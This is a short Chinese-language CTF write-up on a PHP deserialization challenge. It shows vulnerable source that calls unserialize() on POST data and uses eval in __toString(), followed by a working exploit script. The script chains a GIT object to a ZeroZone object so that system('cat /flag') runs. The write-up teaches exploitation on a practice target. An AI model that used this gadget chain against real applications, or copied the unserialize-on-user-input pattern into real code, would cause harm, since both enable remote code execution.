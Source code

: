 ### PHP 反序列化之 __toString() 魔术方法

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/683d938e58cb8da5c8255545.png)

打开网页给出源码

![](https://pic1.imgdb.cn/item/683d938058cb8da5c825553d.png)

```php
class GIT {
    public $username;
    public $password;
    // 初始化用户名为 'guest'，密码为 'Welcome to GITCTF!'
    public function __construct(){
        $this->username = 'guest';
        $this->password = 'Welcome to GITCTF!';
    }
    // 如果用户名为 'ZeroZone'，则输出密码；否则输出提示信息
    public function __destruct(){
        if($this->username == 'ZeroZone'){
            echo $this->password;
        }
        else{
            echo 'ZeroZone Lab new bee !';
        }
    }
}
```

```php
class ZeroZone {
    public $code;
    // 当对象被当作字符串使用时自动调用
    public function __toString(){
        if(isset($this->code)){
            eval($this->code);
            return '';
        }
        else{
            echo "代码呢？";
            return '';
        }
    }
}
```

```php
// 创建一个新的 GIT 类实例
$data = new GIT();
if(isset($_POST['data'])){
    $data = unserialize($_POST['data']);
}
```

让 `$data->username == 'ZeroZone'`，并让 `$data->password`

由于 `__destruct()` 会输出 `$data->password`，如果能让 `$data->password` 为一个 `ZeroZone` 对象，并且触发 `__toString()`，就可以执行任意代码

```php
<?php
class GIT {
    public $username;
    public $password;
}

class ZeroZone {
    public $code;
}

// 构造恶意对象链
$zero = new ZeroZone();
$zero->code = "system('cat /flag');";

$git = new GIT();
// 触发密码输出条件
$git->username = 'ZeroZone';
// 触发__toString() 方法
$git->password = $zero;

// 生成payload
echo serialize($git);
?>
```

![](https://pic1.imgdb.cn/item/683d97fb58cb8da5c82556b8.png)